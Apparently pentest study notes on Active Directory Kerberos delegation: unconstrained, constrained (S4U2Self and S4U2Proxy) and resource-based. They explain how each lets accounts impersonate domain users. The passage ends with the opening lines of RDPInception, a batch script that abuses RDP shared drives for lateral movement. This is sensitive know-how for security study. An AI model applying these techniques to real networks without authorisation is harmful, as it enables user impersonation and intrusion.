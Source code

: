 1. Kerberos Unconstrained Delegation.

This is the *"Trust this computer for delegation to any service (Kerberos only)"* box

When Kerberos Unconstrained Delegation is enabled on the server hosting the service specified in the Service Principal Name referenced in the TGS-REQ **(step 3)**, the Domain Controller the DC places a **copy of the user’s TGT into the service ticket**.
When the user’s service ticket (TGS) is provided to the server for service access, the server opens the TGS and places the user’s TGT into LSASS for later use.
The Application Server can now impersonate that user without limitation!

2. Kerberos Constrained Delegation.

Constrained delegation limits what services are accessible by a delegated computer.

The constrained delegation designation relies on two Kerberos extensions:

- S4U2Self: Permits accounts to request service tickets to themselves for a given user. The issued ticket will be marked by the domain controller as “forwardable.”
- S4U2Proxy: Uses the forwardable service ticket to request a ticket to a SPN in the msDS-AllowedToDelegateTo field of the requesting service.

Any accounts, user or computer, that have service principal names in their msDS-AllowedToDelegateTo property can pretend to be any user in the domain, to those specific service principals names.  You need a right called SeEnableDelegationPrivilege on a domain controller to modify the msDS-AllowedToDelegateTo

Additionally, service name (sname) is not protected in the KRB-CRED file, only the server name is.

3. Resource-Based Constrained Delegation

Kerberos constrained delegation can be used to provide constrained delegation when the front-end service and the resource services are not in the same domain.

By supporting constrained delegation across domains, services can be configured to use constrained delegation to authenticate to servers in other domains **rather than using unconstrained delegation.**

Resource-based constrained delegation puts control of delegation in the hands of the **administrator owning the resource being accessed.**

https://stealthbits.com/blog/what-is-kerberos-delegation-an-overview-of-kerberos-delegation/
https://adsecurity.org/?p=1667

- For the "Kerberos Delegation" part, thanks to Sean Metcalf <https://adsecurity.org/?p=1667>


#### RDPInception

Within Remote Desktop, users are able to “Choose the devices and resources that you want to use in your remote session” such as sharing of the Local Disk

RDPInception is a relatively simple batch script

```
# Switches off echo.
@echo off
# Puts a short timer to ensure that tsclient is mounted.
timeout 1 >nul 2>&1
# Makes a temp directory on both the visiting machine and the target.
mkdir \\tsclient\c\temp >nul 2>&1
mkdir C:\temp >nul 2>&1
#
```
